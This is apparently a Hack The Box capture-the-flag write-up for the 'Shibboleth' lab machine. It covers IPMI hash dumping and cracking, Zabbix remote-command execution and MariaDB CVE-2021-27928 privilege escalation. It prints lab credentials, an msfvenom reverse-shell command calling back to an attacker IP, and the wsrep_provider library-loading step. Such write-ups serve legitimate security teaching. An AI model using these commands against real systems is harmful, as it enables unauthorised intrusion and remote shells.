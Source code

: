 ```yaml
---
title: "Shibboleth Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/shibboleth/20220401204521.png"
tags: ["Hackthebox", "ipmi", "maria-DB", "zabbix"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-04-01T00:49:18+18:08
toc: true
draft: false
---
```


In this Box we are going to enumerate a udp port and dump the administrator hash ,then we will crack it , using these credentials we will login to the zabbix web interface , using my exploit for this version of zabbix we will get a low-privilege shell. re-using same password will leverage our access to a user. for the root part we will exploit a vulnerable maria-db version

<!--more-->

# Scanning :

basic scanning :

```bash
nmap -A -T4 10.10.11.124

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

it was suspicious to have only this port , so i performed a udp scan as well :

```bash
sudo nmap -sU 10.10.11.124

PORT    STATE SERVICE
623/udp open  asf-rmcp
```

we can add `shibboleth.htb` to the `/etc/hosts` and move on to enumeration

# Enumeration :

we can start performing some vhost enumeration :

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb"  -fc 302

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

and add them to the `/etc/hosts` as well

```
10.10.11.124	shibboleth.htb	monitor.shibboleth.htb	zabbix.shibboleth.htb
```

the UDP port we have found eariler seems worthy to search for , and you can find [this](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) post from Hacktricks

we can use that to find the version first

![error](/assets/images/shibboleth/20220401205846.png)

then we can try that :

![error](/assets/images/shibboleth/20220401205951.png)

seems to be `IPMI-2.0 UserAuth ` , from the same post we can see :

![error](/assets/images/shibboleth/20220401210253.png)

we can try that :

![error](/assets/images/shibboleth/20220401210325.png)

and it retrieves a hash , we can see if we can crack it.

from hashcat wiki [here](https://hashcat.net/wiki/doku.php?id=example_hashes)

![error](/assets/images/shibboleth/20220401210453.png)

```bash
hashcat -m 7300 hash2 /usr/share/wordlists/rockyou.txt
```

![error](/assets/images/shibboleth/20220401210621.png)

so now we have these credentials `Administrator:ilovepumkinpie1`

after this point i performed some enumeration to the `IPMI` like :

```bash
ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P ilovepumkinpie1  user list
```

and other But seems i went so far from the foothold :(

now we can take a look at the `TCP port 80` we have found earlier

**`shibboleth.htb`** is not interesting at all , all pages are static

![error](/assets/images/shibboleth/20220401211105.png)

**`zabbix.shibboleth.htb`** has login page so obviously i tried the credentials we have

![error](/assets/images/shibboleth/20220401211214.png)

and we are in :

![error](/assets/images/shibboleth/20220401211319.png)

# Foothold:

if you look at the footer you will find the zabbix version:

![error](/assets/images/shibboleth/20220401211354.png)

searching for it i found no exploits , you can start doing your research and will find at the documentation [here](https://www.zabbix.com/documentation/5.4/en/manual/config/notifications/action/operation/remote_command) the web interface can execute remote commands

actually to exploit it you will do a lot of searching in different options at the web page until you find the page.

at this time i was practicing python so why not to write my first published exploit ?

![](https://media.giphy.com/assets/images/3MkhtxEKImJL3HbRzE/giphy.gif)

you will find it [here](https://www.exploit-db.com/exploits/50816)

![error](/assets/images/shibboleth/20220401212257.png)

so let's download it and try using the exploit

![error](/assets/images/shibboleth/20220401212449.png)

and after one minute:

![error](/assets/images/shibboleth/20220401212602.png)

# Privilege escalation:

only one user exist which is `ipmi_svc` , and we have the password from the `ipmi` right , worthy trying it :

![error](/assets/images/shibboleth/20220401212805.png)

and it works

# Root Access

Uploading Linpeas to the Box and start investigating the output :

![error](/assets/images/shibboleth/20220401213204.png)

![error](/assets/images/shibboleth/20220401213240.png)

![error](/assets/images/shibboleth/20220401213444.png)

and as we can see Maria DB is running locally only , and we can see [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20220401/linpeas.sh) found the username and the password to connect to the database, we can try interact with it

we can read the file except the comments , hence it won't be applicable

```bash
cat /etc/zabbix/zabbix_server.conf | grep -v "#"
```

![error](/assets/images/shibboleth/20220401214523.png)

now let's try interact with it :

```bash
 # password :bloooarskybluh
 mysql -u zabbix -D zabbix -p
```

and we are in :

![error](/assets/images/shibboleth/20220401214650.png)

this Maria-DB version we see at the banner is Vulnerable to **`OS command injection`** , and we can find the exploit [here](https://github.com/Al1ex/CVE-2021-27928)

following the steps:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.52 LPORT=1337 -f elf-so -o CVE-2021-27928.so
```

set the listener and move the `.so` file to the Box. then on the box login to the database then :

```bash
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";
```

![error](/assets/images/shibboleth/20220401215308.png)
